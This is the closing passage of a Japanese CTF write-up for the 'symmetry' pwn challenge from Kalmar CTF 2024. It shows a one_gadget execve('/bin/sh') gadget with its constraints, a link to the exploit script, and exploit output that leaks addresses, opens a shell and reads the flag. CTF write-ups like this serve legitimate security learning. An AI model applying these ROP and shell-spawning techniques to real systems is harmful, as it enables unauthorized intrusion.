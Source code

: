 ```
───────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x6353c41325d6 → ret 
────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

対応するone_gadgetはこちらです。rdxは出力される暗号文なので、鍵で調整できます。

```
0xebc85 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

ここまでを全てつないで完成です。

スクリプトは[ここ](https://github.com/jt00000/ctf.writeup/blob/master/kalmar2024/symmetry/sym3.py)。


```
[+] Opening connection to chal-kalmarc.tf on port 8: Done
    -> stack_leak: 0x7ffd4c419490
    -> base: 0x7f078d22c000
    -> one: 0x7f078d317c85
0x3d705078080071fc
[*] Switching to interactive mode
$ ls
challenge
$ cd /
$ ls
app   etc                     lib32     mnt   run   tmp
bin   flag-8c55b233b9cc00a04d500f327064c975.txt  lib64     opt   sbin  usr
boot  home                     libx32  proc  srv   var
dev   lib                     media     root  sys
$ cat flag-8c55b233b9cc00a04d500f327064c975.txt
kalmar{1n_th3_3nd_it_15_jus1_4_s1mp13_r0p_Ch41n}
```

最後の問題は1時間しかなかったのですが、並び替えを急いで調べる、one_gadgetの制約を満たすために鍵を差し替える、鍵を変えたせいで並び替え順が変わったことに気づく、となったところで調べなおしていたら15分タイムオーバーで完成しました。悔しい。

前半は暗号ロジックを普通に解析するが、後半はバグを含めて考える必要があるという構成で、pwnの立場としては面白かったです。